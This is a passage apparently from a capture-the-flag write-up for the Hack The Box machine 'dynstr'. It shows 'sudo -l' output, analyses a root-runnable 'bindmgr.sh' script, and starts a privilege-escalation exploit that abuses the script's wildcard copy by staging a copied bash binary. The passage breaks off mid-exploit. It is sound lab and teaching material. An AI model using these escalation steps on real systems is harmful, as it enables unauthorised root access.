 ## Obtaining system flag
First, we will run ```sudo -l``` to check the permissions of the binaries and we realize that ```/usr/local/bin/bindmgr.sh``` can be executed with root privileges without any password.
```
bindmgr@dynstr:~$ sudo -l
sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
Matching Defaults entries for bindmgr on dynstr:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bindmgr may run the following commands on dynstr:
    (ALL) NOPASSWD: /usr/local/bin/bindmgr.sh
bindmgr@dynstr:~$ 
```

### Code Analysis of bindmgr.sh
The first part of the code shows that the current directory would require a ```.version``` file with a version number as the command ```cat .version``` is being executed.
```
# Check versioning (.version)
echo "[+] Running $0 to stage new configuration from $PWD."
if [[ ! -f .version ]] ; then
    echo "[-] ERROR: Check versioning. Exiting."
    exit 42
fi
if [[ "`cat .version 2>/dev/null`" -le "`cat $BINDMGR_DIR/.version 2>/dev/null`" ]] ; then
    echo "[-] ERROR: Check versioning. Exiting."
    exit 43
fi
```

The second part of the code creates a ```/etc/bind/named.conf.bindmgr``` configuration file, and prints all the files in the ```/etc/bind/named.bindmgr``` directory into the configuration file.
```
# Create config file that includes all files from named.bindmgr.
echo "[+] Creating $BINDMGR_CONF file."
printf '// Automatically generated file. Do not modify manually.\n' > $BINDMGR_CONF
for file in * ; do
    printf 'include "/etc/bind/named.bindmgr/%s";\n' "$file" >> $BINDMGR_CONF
done
```

The third part of the code copies all the files in the current directory to ```/etc/bind/named.bindmgr```
```
# Stage new version of configuration files.
echo "[+] Staging files to $BINDMGR_DIR."
cp .version * /etc/bind/named.bindmgr/
```

### Exploit
First, we will have to create a version file with a version number
```
echo "2" > .version
```
Next, we will have to copy the ```/bin/bash``` binary so that we can get a privileged binary when the script is executed.
```
bindmgr@dynstr:~$ cp /bin/bash .
bindmgr@dynstr:~$ ls -la
total 1196
drwxr-xr-x 5 bindmgr bindmgr    4096 Aug 21 12:45 .
drwxr-xr-x 4 root    root       4096 Mar 15 20:26 ..
-rwxr-xr-x 1 bindmgr bindmgr 1183448 Aug 21 12:45 bash
lrwxrwxrwx 1 bindmgr bindmgr       9 Mar 15 20:29 .bash_history -> /dev/null
```